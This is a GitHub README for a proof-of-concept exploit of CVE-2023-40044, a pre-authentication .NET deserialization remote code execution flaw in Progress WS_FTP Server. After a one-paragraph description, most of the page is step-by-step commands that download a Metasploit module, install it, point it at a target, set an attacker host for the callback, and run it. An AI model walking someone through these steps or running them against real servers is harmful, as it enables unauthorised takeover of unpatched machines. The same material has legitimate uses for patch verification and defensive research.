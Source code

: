 # CVE-2023-40044

![](https://img.shields.io/static/v1?label=Product&message=Progress%20Software&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=prior%20to%208.7.4%20and%208.8.2&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:9.8.%20Remote%20Code%20Execution&color=red)

## Description

In WS_FTP Server versions prior to 8.7.4 and 8.8.2, a pre-authenticated attacker could leverage a .NET deserialization vulnerability in the Ad Hoc Transfer module to execute remote commands on the underlying WS_FTP Server operating system.   

### Usage

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Progress_Software_WS_FTP_RCE/ws_ftp_rce_cve_2023_40044.rb
```
```
cp ws_ftp_rce_cve_2023_40044.rb /usr/share/metasploit-framework/modules/exploits/windows/http/ws_ftp_rce_cve_2023_40044.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits//windows/http/ws_ftp_rce_cve_2023_40044.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

